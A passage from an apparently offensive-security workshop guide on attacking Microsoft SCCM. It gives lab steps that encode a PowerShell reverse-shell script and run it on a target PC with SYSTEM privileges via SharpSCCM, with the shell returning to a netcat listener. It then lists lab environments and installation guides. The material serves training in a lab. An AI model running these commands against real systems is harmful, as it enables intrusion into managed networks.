 1. Save the file to the `Public` user’s home directory (e.g., `C:\Users\Public\rev.txt`).
2. In the open PowerShell window running as `SCCMADMIN`, execute the following, replacing the file name/path if necessary (`rev.txt` in this example):

```
$payload = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes((Get-Content -Path 'C:\Users\Public\rev.txt' -Raw)))
```

3. Execute `C:\Tools\SharpSCCM.exe exec -d CHELL-PC -p "powershell -enc $payload" -w 60 -s` to run our reverse shell with `SYSTEM` privileges.

After a minute or so, you should receive a reverse shell from `CHELL` on your netcat listener on `SPHERE#`.

Congrats! You just owned your target!

Note: Please refrain from using any other accounts to log on to `CHELL-PC`, as this attack path relies on `CHELL` being the currently logged-on user.

------------

## ## Labs

As fun as it is to stand up SCCM from scratch /s, we recommend using an automated deployment solution if you’d like to get started quickly. Here are the options we’re currently aware of that can stand up a lab in just a few clicks and hours:

- [@an0n_r0](https://twitter.com/an0n_r0/status/1687230842601451522) released a [Snap Labs range](https://dashboard.snaplabs.io/templates/121fda0a-6cc3-4889-bee3-2fe83856f530) that can be used to test the majority of SCCM tradecraft covered in this workshop.
- [@M4yFly](https://twitter.com/m4yfly/status/1771643303164891262) released an [SCCM lab for the Game of Active Directory (GOAD) project](https://github.com/Orange-Cyberdefense/GOAD) that can be used with VMware or VirtualBox which also covers a lot of the tradecraft in this workshop.

The following labs are options as well, but do not separate the site database or SMS Provider roles from the primary site server, preventing the use of the majority of takeover techniques:

- [Windows and Office 365 deployment lab kit](https://learn.microsoft.com/en-us/microsoft-365/enterprise/modern-desktop-deployment-and-management-lab?view=o365-worldwide)
- [SCCM Technical Preview Azure Template](https://learn.microsoft.com/en-us/samples/azure/azure-quickstart-templates/sccm-technicalpreview/)
- [AutomatedLab](https://automatedlab.org/en/latest/Wiki/Roles/configurationmanager/)

If you must install SCCM from scratch, for instance if you need a central administration site, secondary site, or less common site system roles, we recommend the following resources that can help you on your journey. Good luck!

- [Windows Noob Step by Step Guides](https://www.windows-noob.com/forums/topic/4045-step-by-step-guides-system-center-2012-r2-configuration-manager/) - Still relevant today despite being posted in 2011
- [Microsoft’s Lab Guide](https://learn.microsoft.com/en-us/windows/deployment/windows-10-poc-sc-config-mgr) - Another good step-by-step guide for installing a lab manually
- [Prajwal Desai](https://www.prajwaldesai.com/) - Tons of how-to guides that dive deep into SCCM internals
